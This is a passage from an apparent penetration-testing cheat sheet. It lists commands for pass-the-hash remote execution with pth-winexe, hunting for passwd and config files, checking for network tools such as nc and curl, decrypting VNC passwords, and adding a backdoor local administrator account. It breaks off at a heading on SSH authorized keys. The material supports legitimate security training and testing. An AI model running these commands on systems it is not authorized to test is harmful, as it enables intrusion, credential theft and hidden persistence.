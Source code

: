 #### Pth-WinExe <a id="pth-winexe"></a>

```bash
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows <a id="recursively-find-hidden-files-windows"></a>

```bash
dir /A:H /s "c:\program files"
```

### General File Search <a id="general-file-search"></a>

```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd ​

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp​

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access <a id="post-exploitation-and-maintaining-access"></a>

### Browsing Registry Hives <a id="browsing-registry-hives"></a>

```bash
hivesh /registry/file
```

### Decrypting VNC Password <a id="decrypting-vnc-password"></a>

```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators <a id="creating-user-and-adding-to-local-administrators"></a>

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys <a id="creating-ssh-authorized-keys"></a>
